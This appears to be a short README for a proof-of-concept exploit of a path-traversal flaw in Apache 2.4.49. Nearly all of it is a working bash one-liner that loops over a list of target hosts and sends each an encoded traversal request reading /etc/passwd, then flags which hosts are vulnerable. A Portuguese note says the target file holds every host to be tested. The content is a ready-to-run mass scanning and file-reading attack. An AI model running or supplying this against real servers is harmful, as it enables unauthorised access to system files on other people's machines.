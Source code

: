 # PoCApache2.4.49

```cat targets.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done```

targets.txt -> Lista onde conterá todos alvos que serão testados.

PoC image:
<img src="https://imgur.com/FsNVxGL.png">
